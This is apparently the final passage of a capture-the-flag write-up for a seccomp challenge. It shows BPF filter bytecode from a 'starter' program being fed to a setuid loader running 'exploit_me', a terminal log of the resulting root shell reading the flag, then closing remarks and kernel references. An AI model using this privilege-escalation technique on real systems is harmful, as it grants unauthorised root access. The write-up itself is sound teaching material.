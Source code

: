 Now when you compile+run `starter`, you should get your output as BPF bytecode:

```
root@nomu:~/D/u/insecure_seccomp
❯❯ ./starter                                                                                                                         
5                                                                                                                                    
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00050005
0006 00 00 7fff0000
0006 00 00 00000000
```

Now when you send this on the remote service, while running `exploit_me`:

```
/usr/local/bin $ ./seccomp_loader ./exploit_me
5
0020 00 00 00000000
0015 00 01 0000010d
0006 00 00 00050005
0006 00 00 7fff0000
0006 00 00 00000000
/usr/local/bin # cat /flag
uiuctf{seccomp_plus_new_privs_equals_inseccomp_e84609bf}
/usr/local/bin #

```

You will get a root shell, and then flag.

# Closing thoughts

Kernel is very complicated. Bold statements only here xD.

This was a pretty cool challenge, X3eRo0 and I both learned alot about BPF. I hope you did too.

Another lesson: Always `ls -la` to check whether a binary is setuid, and don't just assume that every shell will have fancy syntax highlighting for you :P (this confused me for a while, I couldnt spot the setuid binary, lol).

# References

  - <https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter>
  - <https://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html>
  - <https://linux.die.net/man/2/openat>
  - <https://man7.org/linux/man-pages/man7/capabilities.7.html>
  - <http://bricktou.cn/include/linux/schedtask_no_new_privs_en.html>
  - <https://elixir.bootlin.com/linux/v5.12.14/source/include/linux/sched.h#L1646>
